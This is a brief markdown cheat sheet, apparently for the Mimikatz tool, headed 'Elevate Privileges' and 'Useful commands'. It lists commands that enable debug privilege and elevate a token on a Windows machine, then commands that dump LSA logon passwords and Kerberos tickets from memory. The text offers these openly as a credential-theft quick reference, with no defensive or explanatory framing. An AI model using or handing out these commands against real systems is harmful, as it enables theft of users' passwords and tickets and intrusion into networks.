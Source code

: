 ## Elevate Privileges
Needs to be local auth
```shell
privilege::debug
token::elevate
```

## Useful commands
```shell
sekurlsa::logonpasswords # dump LSA
sekurlsa::tickets # dump tickets
```